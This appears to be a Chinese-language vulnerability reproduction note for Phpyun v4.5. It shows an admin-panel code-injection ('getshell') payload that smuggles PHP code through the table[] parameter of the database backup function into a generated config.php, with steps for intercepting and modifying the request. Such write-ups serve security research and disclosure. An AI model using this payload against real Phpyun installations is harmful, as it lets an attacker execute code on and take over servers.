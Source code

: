 Phpyun v4.5 后台getshell
========================

一、漏洞简介
------------

二、漏洞影响
------------

Phpyun v4.5

三、复现过程
------------

### payload：

    Url： http://www.0-sec.org/admin/index.php?m=database&c=backup  

    Post： 
    pytoken=3c3140b58f5e&table[]=]=1;phpinfo();//&maxfilesize=1111

漏洞复现过程：
首先进入后台-》点击工具-》数据-》数据库管理-》自定义备份-》随便选择一个表-》提交备份

![](resource/Phpyunv4.5后台getshell/media/rId25.png)

抓包，修改table\[\] 参数-》发送

![](resource/Phpyunv4.5后台getshell/media/rId26.png)

![](resource/Phpyunv4.5后台getshell/media/rId27.png)

产生的文件就在uploads/data/plus/bdata/phpyun\_20200312153927/config.phpUrl：访问（这里搭建的时候环境，我默认指向了uploads）

![](resource/Phpyunv4.5后台getshell/media/rId28.png)
